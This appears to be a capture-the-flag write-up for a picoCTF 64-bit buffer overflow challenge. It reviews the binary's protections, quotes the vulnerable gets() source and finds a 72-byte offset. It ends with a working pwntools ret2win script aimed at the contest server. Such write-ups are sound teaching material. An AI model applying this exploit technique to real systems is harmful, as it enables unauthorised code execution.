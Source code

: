 # X-Sixty-What

Challenge Description:

> Overflow x64 code.

> Hint1 : Now that we're in 64-bit, what used to be 4 bytes, now may be 8 bytes.

> Hint2 : Jump to the second instruction (the one after the first push) in the flag function, if you're getting mysterious segmentation faults.

## Analyzing code

We see that it is a 64 bit executable which is dynamically linked and not stripped.
Also the binary does not have PIE enabled and does not have a stack canary but it does have NX enabled.

`vuln: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=3267ee5914133fcf5ee026a4aa2b201324f02089, for GNU/Linux 3.2.0, not stripped`

    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)

We see that gets() is being used which means we can overflow to the return address and jump to the flag function which is defined.

```c
void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}
```

## Finding offset and creating exploit

The offset found was 72 bytes which was found using `pwn cyclic` and the flag/win_function address can be obtained using `gdb/gdb-peda` or it's extensions.
The script written in the end is shown below.

```python
from pwn import *

elf = ELF("./vuln",checksec=False)
#p = elf.process()
p = remote("saturn.picoctf.net", 62733)

win_function = 0x000000000040123b

padding = b'A'*72

payload = padding
payload += p64(win_function)

p.sendline(payload)

p.interactive()
```

Running the above script gives us the flag below

![output of flag when run on the server](flag_output.PNG)